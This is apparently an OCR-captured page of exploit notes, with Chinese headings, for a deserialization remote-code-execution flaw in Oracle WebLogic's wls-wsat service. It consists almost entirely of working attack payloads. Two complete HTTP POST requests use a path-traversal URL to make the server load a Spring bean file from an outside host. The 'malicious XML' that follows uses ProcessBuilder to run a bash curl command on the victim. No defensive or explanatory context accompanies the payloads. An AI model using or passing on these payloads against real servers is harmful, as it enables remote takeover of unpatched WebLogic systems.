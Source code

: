 ```
POST /wls-wsat/CoordinatorPortType11;/../x HTTP/1.1
Content-Type: text/xml
SOAPAction: ""
Content-Length: 585
Host: 192.168.132.131
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <class><string>com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext</string><void><string>
http://192.168.132.1/1.xml
</string></void></class>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>

```

>FileSystemXmlApplicationContext类

```
POST /wls-wsat/CoordinatorPortType11;/../x HTTP/1.1
Content-Type: text/xml
SOAPAction: ""
Content-Length: 586
Host: 192.168.132.131
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <class><string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string><void><string>
http://192.168.132.1/1.xml
</string></void></class>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

>恶意xml

```
<?xml version="1.0" encoding="utf-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[curl http://192.168.132.1/ReadMe.txt]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
